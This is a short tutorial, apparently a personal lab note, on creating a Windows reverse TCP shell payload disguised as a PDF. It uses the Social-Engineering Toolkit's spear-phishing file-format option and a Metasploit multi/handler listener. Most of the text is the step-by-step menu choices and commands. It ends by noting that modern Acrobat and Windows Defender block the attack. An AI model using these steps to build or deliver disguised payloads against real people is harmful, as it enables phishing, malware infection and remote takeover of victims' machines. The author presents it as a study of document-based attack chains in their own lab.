



# Reverse shell tcp exploit masked as adobe pdf

Let's make an msfvenom payload that is masked as a PDF using social engineering toolkit. First install `setoolkit` if you don't have it (comes preinstalled in kali)

### 1. Create pdf of your own but it's not really needed.

`echo "Ur hacked lol" > hacked.txt`

install enscript `sudo apt install enscript`

Now turn txt into pdf
`enscript hacked.txt -o - | ps2pdf - hacked.pdf`

### 2. Start social engineering toolkit

`sudo setoolkit`

Now we will select the following options: 

1. 1) Social-Engineering Attacks

2. 1) Spear-Phishing Attack Vectors

3. 2) Create a FileFormat Payload

4. 13) dobe PDF Embedded EXE Social Engineering

5. Now you can either choose 1 or 2 to use your own pdf or a blank PDF. I will use a blank PDF at this point.

6. Select your payload type. These are generated similar to msfvenom. 

I will use Windows Reverse TCP Shell (x64) so 4

7. Select your host IP (Localhost or whatnot)

8. Select your Port (4443 or something)

9. You can decide to rename the file or not. In this case I will rename it to `hacker.pdf`

10. There are some email options but we won't worry about it and just quit

The generated pdf will be placed in a weird place. You can access it via:

`sudo -i`

`cd /root/.set/`

I will move this PDF that is generated into a shared folder to my windows machine

`mv hacker.pdf /media/sf_Shared_Folder/`

Set up listener:

`msfconsole`

`use exploit/multi/handler`

`set payload windows/x64/shell/reverse_tcp`

`LHOST = localhost`

`LPORT = 4444`

`exploit`

Now it will listen on the port and wait for the PDF payload to be executed.

On our windows machine, we can open the PDF: 

Now when you open the PDF, it will try install something into your system32 folder which is kinda sus.

But depending on the method you open it, it most likely will not work because adobe acrobat disables any executables by default and you would have to use a super old version for this to work.

For me it actually deleted the PDF when i tried executing it with windows defender on.

Nonetheless, it's a cool look into what is the killchain for document-based executables.

References:

https://www.youtube.com/watch?v=Zj_7Wunnu2w